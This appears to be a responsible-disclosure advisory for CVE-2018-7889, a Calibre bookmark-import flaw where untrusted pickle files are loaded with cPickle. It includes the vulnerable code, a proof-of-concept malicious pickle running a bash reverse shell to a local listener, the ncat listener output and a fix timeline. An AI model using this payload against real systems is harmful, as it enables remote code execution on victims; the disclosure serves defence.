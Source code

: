 ```yaml
---
layout: post
title: "CVE-2018-7889: Code execution when importing bookmarks into an Ebook"
---
```


A malicious pickle file can be used to trigger remote code execution in
Calibre E-book Manager.

# Affected Versions

This vulnerability affects all operating systems Calibre supports and is
present in the latest version (3.18) of the application.

# Description

Calibre E-book Manager uses the Python `pickle` module for serialization in
multiple places. This is a dangerous pattern because the deserialization of
malicious pickle data can result in the execution of arbitrary Python code.

There is one specific functionality in Calibre where the use of pickle can be
leveraged by an attacker to obtain code execution by social engineering a
target.

Calibre allows users to export and import bookmark data from a
specific ebook. `src/calibre/gui2/viewer/bookmarkmanager.py` contains code that
imports a previously exported file containing bookmark information. This file
data is directly passed into `cPickle.load`.

```python
206 files = choose_files(self, 'export-viewer-bookmarks', _('Import bookmarks'),
207     filters=[(_('Saved bookmarks'), ['pickle'])], all_files=False, select_only_single_file=True)
208        if not files:
209            return
210        filename = files[0]
211
212        imported = None
213        with open(filename, 'rb') as fileobj:
214            imported = cPickle.load(fileobj)
```

# Proof of Concept

For the proof of concept, we will use a malicious pickle generated by the below
`poc.py`.

```python
import cPickle
import os
import base64
import pickletools

class Exploit(object):
    def __reduce__(self):
        return (os.system, (("bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

The exploit will make a reverse shell to a listener on 127.0.0.1:8000, so we
set that up using `ncat`.

```
$ ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 125E F683 5DA6 153A 6E26 E957 0C92 4706 2596 347C
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

We open an ebook and navigate to the "Bookmarks" icon on the left of the
screen and click the "Show/hide bookmarks" menu item. We then click the
"Import" button on the bookmarks pane and select the generated `exploit.pickle`
file. This should trigger a reverse shell on our listener.

# Credits

This issue was discovered by Ayrx.

# Timeline

* 02 Mar 2018 - Vulnerability discovered.
* 07 Mar 2018 - Vulnerability [reported][calibre-bug-report] to the vendor.
* 07 Mar 2018 - Vulnerability fixed by vendor in commit `aeb5b036a0bf`.
* 09 Mar 2018 - CVE-2018-7889 assigned.


[calibre-bug-report]: https://bugs.launchpad.net/calibre/+bug/1753870
